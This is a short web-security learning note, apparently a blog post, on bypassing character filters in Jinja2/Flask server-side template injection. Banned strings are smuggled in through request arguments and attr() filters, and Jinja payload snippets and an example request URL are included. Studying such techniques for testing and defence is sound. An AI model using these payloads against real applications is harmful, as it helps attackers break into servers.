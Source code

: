 ```yaml
---
title: "Jinja2/Flask SSTI Filter bypass"
author: filip
date: 2024-07-03 10:00:00 0000
categories: [Web Security, Notes]
tags: [Notes, Jinja2, Flask, Filter Bypass]
render_with_liquid: false
---
```


## Case study
If the following chars are banned from injection ( ```"{{", "}}", ".", "_", "[", "]","\\", "x" ```), it is still possible to perform SSTI, because symbols as `%`, `{`, `}` and `(` , `)` are still accessible.

In Jinja2/Flask it is possible to initialize variables for templates, and deliver payload parts through different methods(i.e., GET parameters, HTTP headers, cookies). This might help avoid filters that expect forbidden values from a certain injection point, not from the whole request itself.

The explanation on how to decide what payload to delive is left outside of this post, and here I just left as a learning note an example how to conduct such a payload. 

### Bypassing a filter.
At first, we need to access the `request` object. If it is accessible, then we need to check if `attr()` method is available. When this condition is met, we start crafting our payload. 
For example we need to send the  `dict.__base__` to access the class object. The following might be performed on this build through delivering `__base__` string that contains banned symbols via HTTP GET parameter in Jinja2/Flask 3.0.* in the following (originally `request.args.get('param_name')`):
```python
{%set base=request|attr('args')|attr('get')('base')%} #here we make a helper
{%with a=dict|attr(base) %}{%print(a)%}{%endwith%} #and use our helper in our initial payload `dict.__base__`
```
then deliver `dict.__base__` sending a request to the page with the stored template like following:
`https://localhost:3000/vulnerable/page?base=__base__ `


The very same method can be used to craft the complete SSTI payload bypassing above mentioned filters. and when you need to pass string not as an attribute but a `('value')` you can do like following:
```python
{%set base=request|attr('args')|attr('get')('base')%} #here we make a helper
{%set value=request|attr('args')|attr('get')('val')%}
{%with a=dict|attr(base)(value) %}{%print(a)%}{%endwith%} #and use our helper 
```
Then call it the very same way:

`https://localhost:3000/vulnerable/page?base=method&val=string-value`